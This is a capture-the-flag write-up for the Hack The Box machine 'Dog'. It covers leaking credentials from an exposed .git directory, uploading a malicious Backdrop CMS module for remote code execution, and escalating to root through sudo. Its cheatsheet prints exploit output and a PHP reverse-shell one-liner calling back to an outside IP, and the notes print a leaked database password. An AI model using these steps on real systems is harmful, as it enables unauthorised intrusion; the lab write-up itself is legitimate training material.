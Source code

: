 # Dog \[Easy]

## Report

An exposed git repositary compromises SQL root password credentials and a user tiffany@htb for the Backdrop CMS running on port 80 allows us to login as admin on CMS. Just like Mr. Robot WordPress, manual plugins can be installed here, upload a tar.gz file which is a PHP reverse shell.

List users in home and user johncusack uses same password as root db for user flag

sudo -l shows a binary bee that can run arbitrary PHP code, use it to spawn a new bash shell

## Cheatsheet

```
python3 exploit.py http://dog.htb
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://dog.htb/modules/shell/shell.php

php -r '$sock=fsockopen("10.10.14.55",9001);system("/bin/bash <&3 >&3 2>&3");'
```

## Loot

Email address - support@htb

.git  found on website, dump it

`$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop'`

`grep -r "@dog.htb"`

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure></div>
